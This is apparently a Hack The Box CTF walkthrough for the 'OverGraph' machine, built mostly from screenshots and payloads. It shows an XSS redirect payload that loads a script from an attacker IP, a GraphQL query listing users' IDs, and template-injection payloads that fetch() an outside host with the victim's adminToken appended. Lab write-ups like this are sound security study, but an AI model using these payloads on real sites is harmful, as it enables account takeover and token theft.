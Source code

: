 xss succesfull
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/xss%20succesfull.png)

### xss payload to load external file
````bash
http://graph.htb/?redirect=javascript:document.body.innerHTML%2B%3D%27%3Cscript%20src%3d%22http://10.10.14.12:9001/xsrf.js%22%3E%3C/script%3E%27

//url decoded

http://graph.htb/?redirect=javascript:document.body.innerHTML+='<script src="http://10.10.14.12:9001/csrf.js"></script>'

`````

### xss send malicious link 
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/xss%20send%20malicious%20link.png)

### link clicked
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/xss%20external%20file%20server%20hit.png)

### playground get Larrys ID
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/playground%20get%20Larrys%20ID.png)

````
query tasks{
	tasks(username: "Mark"){
    Assignedto
    username
    taskstatus
    type
  }
}

//Larry
Assignedto: 6343d8096489bc0eb2342ffd

//Mark
Assignedto: 6343e619f2b3970f28407b2d
`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/OverGraph/screenshots/playground%20get%20Larry%20ID.png)

### SSTI to load external file from given server
````
//PORT 80
{{constructor.constructor('fetch("http://10.10.14.12/" + localStorage.getItem("adminToken"))')()}}

//PORT 9001
{{constructor.constructor('fetch("http://10.10.14.12:9001/" + localStorage.getItem("adminToken"))')()}}



{{constructor.constructor('fetch(\"http://10.10.14.12/\")')()}}

`````
